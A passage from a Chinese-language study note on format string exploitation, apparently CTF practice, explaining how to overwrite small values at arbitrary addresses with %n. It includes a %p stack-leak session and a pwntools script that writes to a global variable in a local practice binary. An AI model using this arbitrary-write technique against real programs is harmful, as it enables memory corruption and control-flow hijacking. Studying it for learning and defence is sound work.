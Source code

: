 看到`modified c`，说明c的内容覆盖成功了。

### 覆盖任意地址内存

#### 覆盖小数字

既然要覆盖的地址是也是我们输入的字符串，所以地址是可以任意指定的，关键的问题就是值的问题。

当覆盖的值比较小的时候，比如2，如果还是像之前那样的话，`%n$n`前面已经至少有4个字节了，所以覆盖的值最少是4，导致了小数字没法覆盖。

因此需要修改地址值在payload中的位置，往后面放就行，看解法就懂了：

```shell
feng@ubuntu: ~/Desktop$ ./overwrite 
0xff9b1d1c
bbccccbbaaaa%p-%p-%p-%p-%p-%p-%p-%p
bbccccbbaaaa0xff9b1cb8-0xc2-0xf7daa79b-0xff9b1cde-0xff9b1ddc-0x63636262-0x62626363-0x61616161feng@ubuntu: ~/Desktop$ 

```

bb代表前面有2个字符，cccc代表`%n$n`，后面再补2个b是为了凑齐4个字节，aaaa即我们放入的地址。看一下会发现aaaa在第8个参数，所以n取8。

至于a和b的地址，因为它们是已初始化的全局变量，放入的是.data段，IDA看一下地址就行了：

![image-20220117164931089](格式化字符串学习.assets/image-20220117164931089.png)

EXP：

```python
from pwn import *
from LibcSearcher import *
#context(log_level="debug",arch="i386",os="linux")
context(log_level="debug",os="linux")
p = process('./overwrite')
a_addr = 0x0804A024

payload = flat(['aa'+'%8$n','aa',a_addr])
p.sendline(payload)
print(p.recv())

```

![image-20220117165141237](格式化字符串学习.assets/image-20220117165141237.png)
